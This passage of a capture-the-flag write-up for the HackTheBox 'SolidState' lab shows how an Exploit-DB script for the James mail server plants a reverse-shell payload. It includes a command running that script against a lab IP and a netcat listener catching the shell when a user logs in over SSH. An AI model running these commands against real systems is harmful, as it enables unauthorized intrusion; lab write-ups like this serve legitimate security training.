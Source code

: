 First step is to create the malicious account, and send an email with a reverse shell payload, for this we can run our [exploit](https://www.exploit-db.com/exploits/50347) as such:

```bash
python3 james_rce.py 10.129.74.208 10.10.14.69 443
```

Where the syntax is as follows `python3 james_rce.py <remote_ip> <local_ip> <local_port>`.

![execute-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/execute-18.png)

Now we start the local listener for the reverse connection:

```bash
rlwrap nc -lnvp 443
```

Finally, we log in as `mindy` via SSH:

![login-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/login-19.png)

The login was successful, and immediately after we login, our RCE payload is executed via the stored email inside the bash completion directory tree, and this is what we are seeing here. This is the contet of the email sent by the exploit. This freezes the SSH connection, but it gives us a connection on our listener:

![shell-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/shell-20.png)
